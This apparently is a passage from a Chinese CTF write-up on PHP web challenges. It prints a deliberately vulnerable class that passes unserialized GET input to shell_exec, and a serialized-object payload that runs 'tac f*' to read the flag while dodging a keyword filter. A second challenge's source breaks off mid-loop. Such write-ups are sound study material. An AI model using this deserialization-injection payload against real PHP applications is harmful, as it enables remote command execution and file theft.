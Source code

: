 访问页面找到flag



### webshell

```php
<?php 
    error_reporting(0);

    class Webshell {
        public $cmd = 'echo "Hello World!"';

        public function __construct() {
            $this->init();
        }

        public function init() {
            if (!preg_match('/flag/i', $this->cmd)) {
                $this->exec($this->cmd);
            }
        }

        public function exec($cmd) {
            $result = shell_exec($cmd);
            echo $result;
        }
    }

    if(isset($_GET['cmd'])) {
        $serializecmd = $_GET['cmd'];
        $unserializecmd = unserialize($serializecmd);
        $unserializecmd->init();
    }
    else {
        highlight_file(__FILE__);
    }

?>
```

php反序列化

```php
$a = new Webshell();
echo urldecode((serialize($a)));

//?cmd=O:8:"Webshell":1:{s:3:"cmd";s:6:"tac f*";}
```



### 化零为整

```php
<?php

highlight_file(__FILE__);
include "flag.php";

$result='';

for ($i=1;$i<=count($_GET);$i++){
    if (strlen($_GET[$i])>1){
        die("你太长了！！");
        }
    else{
    $result=$result.$_GET[$i];
```